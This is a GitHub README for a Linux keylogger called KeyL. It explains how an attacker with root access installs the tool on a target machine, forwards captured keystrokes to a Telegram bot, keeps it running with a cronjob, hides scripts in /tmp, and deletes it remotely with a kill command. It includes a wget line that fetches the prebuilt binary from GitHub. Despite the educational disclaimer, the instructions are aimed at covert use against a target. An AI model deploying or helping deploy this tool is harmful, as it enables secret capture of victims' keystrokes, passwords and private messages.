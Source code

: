 # KeyL

This program records keystrokes and sends them to a telegram bot, until the attacker send the `/kill` command so the program delete itself from the target's machine.

It require root access to the target.

## Disclaimer:
This project of a Key Logger is for **educational purposes**, it has been created only with my mere knowledge. Do **not** deploy or use this code on any system without explicit permission from the owner. Misuse of this software may violate laws and going to jail for stupid reasons it's dumb.

## How2UseIt

Once you gain access to the target machine, you have to options:
1. Inject and execute the `make.sh` .
2. Paste and execute the content of `toBePasted.txt` .

But before you need to configure it for your own setup. Here's how:

1. **Set Your Telegram Token (Mandatory)**  
   Open `config.py` and insert your Telegram bot token.  
   > If you’re unsure how to get one, it's easy stuff just ask ChatGPT.

2. **Customize Logger Behavior (Optional)**  
   If you're geek enough you can configure the logger by modifying flags inside `KeyL.py`.  
   If you make changes, you'll need to build your own version to install:
   By default, `make.sh` installs the static version hosted on GitHub:
   ```bash
   wget -O /tmp/keyl https://raw.githubusercontent.com/fortigate3600/KeyL/main/keyl
   ```


### Important:
Before starting the program, send a dummy message to the Telegram bot.
This is necessary for the bot to retrieve your chat_id and be able to respond to you.

To stop the keylogger on a specific machine remotely,
send the command `/kill <machine_id>` to the Telegram bot.


## How it works
<img width="800" height="400" alt="killSwitchMechanism" src="https://github.com/user-attachments/assets/aac92346-7d68-4f4b-8460-fb7a1a382a45" />

The persistence mechanism is simple (and quite weak): if the logger process is killed, it gets respawned automatically by a cronjob calling launc.sh.
I have hidden the .sh files in the /tmp directory. I could have made it stealthier, but this project is just for academic purposes.

Once the main program calls KillSwitch.sh, the latter delete every file concerning us, and cleans the crojob.

The make.sh script (or the toBePasted.txt) creates the files shown in the image above.
Now, let’s dive into what the code does.

## Code

It monitors every keypress and stores each key in a buffer. Once the buffer reaches a certain threshold, it sends the content to a Telegram bot.

Specifically, the monitorShift() function checks whether the Shift key is being held down and communicates this through a global flag to monitorKeys(), which logs the pressed keys. If necessary, the keys are passed through a dictionary to convert them to their uppercase equivalents.




